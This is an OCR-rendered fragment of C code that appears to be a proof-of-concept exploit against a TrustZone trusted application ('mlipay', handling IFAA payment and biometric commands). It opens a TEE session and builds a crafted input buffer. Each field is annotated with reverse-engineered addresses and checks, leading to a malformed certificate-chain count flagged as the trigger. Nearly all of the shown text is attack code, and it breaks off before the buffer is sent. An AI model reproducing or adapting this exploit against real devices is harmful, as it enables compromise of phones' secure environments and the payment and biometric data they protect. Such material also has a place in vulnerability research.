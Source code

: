 ```c
    r = TEEC_OpenSession(&ctx, &sess, &uuid, TEEC_LOGIN_PUBLIC, NULL, NULL, NULL);
    printf("[+] open   mlipay : %d\n",r);

    memset(&op, 0, sizeof(op));
    op.paramTypes = TEEC_PARAM_TYPES(TEEC_MEMREF_TEMP_INPUT, TEEC_MEMREF_TEMP_OUTPUT, TEEC_NONE, TEEC_NONE);

    char * payload = malloc(0x1000);
    memset(payload,0,0x1000);

    /* --------------------------------  sub_801EB58: mp_handler  ---------------------------------  */

    *(int *) payload = 1;                   // 0x801EB94: if ( *buffer != 1 )
    *(int *)(payload + 4) = 0x1000;         // 0x801EBEC: v11 != 0x1000

    /* --------------------------------  sub_80203D4: process_ifaa_cmd  ---------------------------  */

    *(int *)(payload + 8)   = 0x200;        // 0x80203F4: v109 = *(_DWORD *)(input + 8); size total
    *(int *)(payload + 0xc) = 0;            // size total padding

    // sig_len; signature
    *(int *)(payload + 0x10) = 4;           // 0x801F198: size_data = read32(*data): size data
    *(int *)(payload + 0x14) = 1;           // 0x8020458: EXTRACT_DATA((__int64)v72, &v68, &v69); v72

    // pkg_len; pkg_name
    *(int *)(payload + 0x18) = 4;           // 0x801F198: size_data = read32(*data): size data
    *(int *)(payload + 0x1C) = 1;           // 0x8020470: EXTRACT_DATA((__int64)v73, &v68, &v69); v73

    // command
    *(int *)(payload + 0x20) = 2;           // 0x8020484: v12 = read32(v69)
        
    // Param_len
    *(int *)(payload + 0x24)  = 0x100;      // 0x80205E0: v11 = EXTRACT_DATA((__int64)&v83, &v68, &v69);


    /* --------------------------------  sub_801FA5C: ifaa_tz_register  ---------------------------  */
    /* --------------------------------  sub_80243CC: parse_request     ---------------------------  */
    /* --------------------------------  sub_801F49C:                   ---------------------------  */
    /* --------------------------------  sub_801F27C: ifaa_in_validate_req_sig  -------------------  */

    // Params(TLV data)
    *(uint16_t *)(payload + 0x28) = 1;		// root_node
    *(uint16_t *)(payload + 0x2a) = 0xf0;	// size
    *(uint16_t *)(payload + 0x2c) = 2;		// node_regdata
    *(uint16_t *)(payload + 0x2e) = 0xe0;	// size
    *(uint16_t *)(payload + 0x30) = 0x8007;	// node_sig
    *(uint16_t *)(payload + 0x32) = 0x0;	// size
    *(uint16_t *)(payload + 0x34) = 0x8006;	// node_certchain
    *(uint16_t *)(payload + 0x36) = 0xd0;	// size
    *(int *)     (payload + 0x38) = 6;		// number of cert !!!

    op.params[0].tmpref.buffer = payload;
    op.params[0].tmpref.size   = 0x1000;

```